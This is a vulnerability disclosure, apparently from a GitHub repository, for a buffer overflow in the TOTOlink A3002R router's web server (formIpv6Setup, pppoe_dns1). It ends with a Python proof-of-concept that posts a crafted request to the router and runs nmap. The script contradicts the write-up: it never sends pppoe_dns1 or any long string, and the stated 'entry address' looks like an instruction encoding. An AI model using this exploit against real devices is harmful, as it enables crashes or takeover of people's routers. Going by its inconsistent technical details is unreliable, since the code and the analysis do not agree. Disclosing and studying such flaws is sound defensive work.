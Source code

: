 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `pppoe_dns1` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`
![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_14-59-19.png)

By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v39` variable is passed to `v51` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `pppoe_dns1` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "`pppoe_dns1`" data, and `strcpy` copies the string pointed to by `v39` to `v51` without verifying whether `v51` has enough space to store the copied string. If the string pointed to by `v39` exceeds the size of the `v51` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_15-01-46.png)
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `pppoe_dns1` string, potentially causing the program to crash.


# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"
data = "submit-url=%2FIPv6_Setup.htm&update=&wan_enable=1&OriginType=0&enable_dhcpv6RapidCommit={}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
